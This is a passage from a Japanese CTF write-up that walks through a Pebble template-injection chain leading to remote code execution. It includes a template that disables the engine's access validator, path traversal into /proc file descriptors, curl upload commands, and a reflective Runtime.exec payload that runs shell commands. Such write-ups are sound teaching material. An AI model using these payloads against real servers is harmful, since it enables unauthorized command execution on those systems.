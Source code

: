 ```
{% set rceFileName = request.getParameter("rceFileName") %}

{% set template = engine.getTemplate(rceFileName) %}

{{ template.evaluate(response.getWriter()) }}
```
なにをやっているかと言うと、

1. `NoOpMethodAccessValidator`のインスタンスを生成 → 変数`accessValidator`に代入
2. `PebbleEngine$Builder`のインスタンスを生成 → 変数`builder`に代入
3. `builder`から`accessValidator`をvalidatorに設定した`PebbleEngine`をbuildし、変数`engine`に代入
4. リクエストパラメータ`rceFileName`を読み込んで、変数`rceFileName`に代入
5. `engine`で`rceFileName`のファイルを読み込んで評価した内容をHTTPレスポンスに流す

でPebbleEngineの内部でmitigationを消したPebbleEngineを作成してそれを用いて任意ファイルをレンダリング可能にした。

```
$ seq 50000 | sed 's/^.*$/test/' >> evil.pebble
```
でファイルを巨大にしたのち、パート1~2で行った攻撃を行ってブラウザで

- `/?x=../../../../proc/1/fd/14&rceFileName=about.pebble`

にアクセスすると`about.pebble`の内容がレンダリングされた:

![](/images/2022/20220801-uiuctf-05.png)

良さそう。
なんと、今レンダリングしているテンプレートエンジンはmitigationが吹き飛んでるのでRCEし放題です。

### パート4: SSTI to RCE（結）

RCEの準備が整ったので今度はフラグファイルを実行するテンプレートを用意する。

用意した（`rce.pebble`）:
```
{% set cmd = 'sh;-c;./getflag > /tmp/flag.txt'.split(";") %}
{{ (1).TYPE.forName("java.lang.Runtime").methods[0].invoke(null, null).exec(cmd) }}
```
これがレンダリングされたら`/tmp/flag.txt`にフラグが出力される。

同様に
```
$ seq 50000 | sed 's/^.*$/test/' >> rce.pebble
```
でファイルを巨大化して
```
$ curl --limit-rate 1k -X POST http://localhost:8080 -F a=@./rce.txt & curl --limit-rate 1k -X POST http://localhost:8080 -F a=@./rce.txt
```
を送りつけると、リクエストが2並列に飛ぶので、`rce.pebble`は`/proc/1/fd/14`と`/proc/1/fd/15`に存在することになる。

ところでPebbleの実装を読むとわかるのだが、実は一度レンダリングされたファイルの中身はキャッシュされるので、`/proc/1/fd/14`が書き換わっても問題ない。つまり、

- `/proc/1/fd/14`は`evil.pebble`の内容
- `/proc/1/fd/15`は`rce.pebble`の内容


[^intro-1]: jailカテゴリではpyjailやFirefoxアドオンに関する問題が出題されてました。Firefoxアドオンの問題は見たことがないのでwriteupが手に入ったら復習したいです。他にもsystemsやosintの謎カテゴリもありました。
[^intro-2]: 面倒くさいという観点で難しいということではなく、本質的に解くのが難しく解きごたえがあって良いという意味。
[^intro-3]: Spoinkはポケモンのバネブーの英語名らしい。
[^spoink-1]: 追記: どうやらDALL·EやMidjourneyで生成した画像（絵）らしい。すべての問題に対して絵が用意されていてすごいなと思っていたけど、なるほど。問題文内の"a cute anthropomorphised spring as a line drawing"がAIに投げた文字列に対応している。CTFらしい良い試みだと思う。
[^part2-1]: PHPに関しては「HITCON CTFでPHPやばすぎ問題が出題される → 典型として浸透する」という流れがよくあるイメージなので、Orange氏の[作問リスト](https://github.com/orangetw/My-CTF-Web-Challenges)をチェックしておくのは有用なのではと最近考えてる。